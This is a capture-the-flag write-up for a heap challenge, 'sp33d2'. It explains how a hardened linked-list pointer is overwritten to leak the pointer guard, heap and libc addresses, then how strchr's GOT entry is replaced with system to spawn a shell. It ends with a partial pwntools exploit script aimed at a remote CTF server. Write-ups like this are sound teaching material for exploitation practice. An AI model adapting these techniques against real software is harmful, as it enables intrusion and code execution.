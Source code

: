 ## sp33d2
A simple problem.    
The challenge implements a linked list on heap, each entry is stuffed in a 0x40-malloc-sized chunk and is in the following structure:
```c
struct Node {
    char data[0x38];
    struct Node *next_hardened;
};
```
Note that the `next` pointer is hardened (xor-ed with fs:0x30 and ror-ed)     
The vulnerability lies in that we can overwrite the next pointer. Moreover, the program will print such a value as below when it detects the next pointer is not in data or on heap.
```c
(__readfsqword(0x30u) ^ __ROR8__(next_hardened, 17)) & 0xFFFFFFFFFFFFFFFELL
```

So we do the following:
1. overwrite next_hardened to b"aaaaaaaa", print the value above and leak the __readfsqword(0x30u) and heap address   
2. overwrite the next_hardened pointer to point at stdout at bss segment, the content of the stdout pointer on bss segment will be seen as the data of the next node, so we can print it and get a leak of the libc base address
3. overwrite the next_hardened pointer to point at got entry of strchr, overwrite the address with `system` function address in glibc, and the next round, we input "/bin/sh" and boom!    
### exp

```py
from pwn import *
context(log_level = "debug", os = "linux")
# p = process("./sp33d2_patched")
p = remote("sp33d.play.hfsc.tf",1357)
libc = ELF("./libc.so.6")
context(log_level = "debug", os = "linux", arch = "amd64")
def add(content):
    p.recvuntil("> ")
    p.sendline("1")
    p.recvuntil("thing: ")
    p.sendline(content)

def print_linkedlist():
    p.recvuntil("> ")
    p.sendline("2")

def ror_8(x, n):
    log.info("ror_8: " + hex(x))
    log.info("n: " + hex(n))
    log.info("ror_8 result: " + hex(((x >> n) | (x << (64 - n)))& 0xFFFFFFFFFFFFFFFF))
    return (((x >> n) | (x << (64 - n)))& 0xFFFFFFFFFFFFFFFF)

def rol_8(x, n):
    log.info("rol_8: " + hex(x))
    log.info("n: " + hex(n))
    log.info("rol_8 result: " + hex(((x << n) | (x >> (64 - n)))& 0xFFFFFFFFFFFFFFFF))
    return (((x << n) | (x >> (64 - n)))& 0xFFFFFFFFFFFFFFFF)

def delete(idx):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("index: ")
    p.sendline(str(idx))

add("XDEBUG: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
print_linkedlist()
```